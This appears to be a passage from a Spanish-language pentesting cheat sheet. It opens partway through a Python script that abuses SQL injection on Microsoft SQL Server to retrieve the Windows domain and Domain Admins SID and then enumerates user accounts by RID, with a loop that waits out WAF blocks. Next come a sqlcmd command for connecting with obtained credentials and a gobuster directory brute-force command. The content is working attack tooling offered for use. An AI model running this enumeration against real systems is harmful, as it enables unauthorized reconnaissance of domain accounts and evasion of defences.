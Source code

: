 ```python
        )
        if resp.status_code != 403:
            break
        sys.stdout.write("\r[-] Triggered WAF. Sleeping for 30 seconds")
        time.sleep(30)
    return resp.json()[0]["email"]


print("[*] Finding domain")
domain = issue_query("DEFAULT_DOMAIN()")
print(f"[+] Found domain: {domain}")

print("[*] Finding Domain SID")
sid = issue_query(f"master.dbo.fn_varbintohexstr(SUSER_SID('{domain}\Domain Admins'))")[:-8]
print(f"[+] Found SID for {domain} domain: {sid}")

for i in range(500, 10500):
    sys.stdout.write(f"\r[*] Checking SID {i}" + " " * 50)
    num = binascii.hexlify(struct.pack("<I", i)).decode()
    acct = issue_query(f"SUSER_SNAME({sid}{num})")
    if acct:
        print(f"\r[+] Found account [{i:05d}]  {acct}" + " " * 30)
    time.sleep(1)

print("\r" + " " * 50)
```

## SQLCMD

Si disponemos de credenciales y `sqlcmd` está instalado en la máquina, nos podemos conectar a otras bases de datos:

```powershell
sqlcmd -U <USUARIO> -P "<CONTRASEÑA>" -S localhost -d <DB> -Q <QUERY>
```

## Web

Podemos usar tres herramientas para esto:

### Directorios

- Gobuster
	- HTTP:

```shell
gobuster dir -u http://url/of/the/target/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 250
```

>Para HTTPS sería solo añadirle `-k` después de la url

- Wfuzz
